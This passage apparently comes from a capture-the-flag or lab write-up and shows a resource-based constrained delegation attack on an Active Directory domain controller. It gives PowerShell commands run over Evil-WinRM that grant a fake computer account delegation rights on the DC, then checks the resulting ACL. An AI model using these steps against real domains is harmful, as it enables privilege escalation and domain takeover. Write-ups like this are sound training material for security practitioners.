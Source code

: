 

I need the SID of the computer object as well, so I'll save it in a
variable:



    *Evil-WinRM* PS C:\programdata> $fakesid = Get-DomainComputer 0xdfFakeComputer | select -expand objectsid
    *Evil-WinRM* PS C:\programdata> $fakesid
    S-1-5-21-1677581083-3380853377-188903654-1121



#### Attack

Now I'll configure the DC to trust my fake computer to make
authorization decisions on it's behalf. These commands will create an
ACL with the fake computer's SID and assign that to the DC:



    *Evil-WinRM* PS C:\programdata> $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($fakesid))"
    *Evil-WinRM* PS C:\programdata> $SDBytes = New-Object byte[] ($SD.BinaryLength)
    *Evil-WinRM* PS C:\programdata> $SD.GetBinaryForm($SDBytes, 0)
    *Evil-WinRM* PS C:\programdata> Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}



I'll verify it worked:



    *Evil-WinRM* PS C:\programdata> $RawBytes = Get-DomainComputer DC -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
    *Evil-WinRM* PS C:\programdata> $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
    *Evil-WinRM* PS C:\programdata> $Descriptor.DiscretionaryAcl


    BinaryLength       : 36
    AceQualifier       : AccessAllowed
    IsCallback         : False
    OpaqueLength       : 0
    AccessMask         : 983551
    SecurityIdentifier : S-1-5-21-1677581083-3380853377-188903654-1121
    AceType            : AccessAllowed
    AceFlags           : None
    IsInherited        : False
    InheritanceFlags   : None
    PropagationFlags   : None
    AuditFlags         : None



There is an ACL with the `SecurityIdentifier` of my fake computer and it
says `AccessAllowed`.

I can also re-run Bloodhound now:

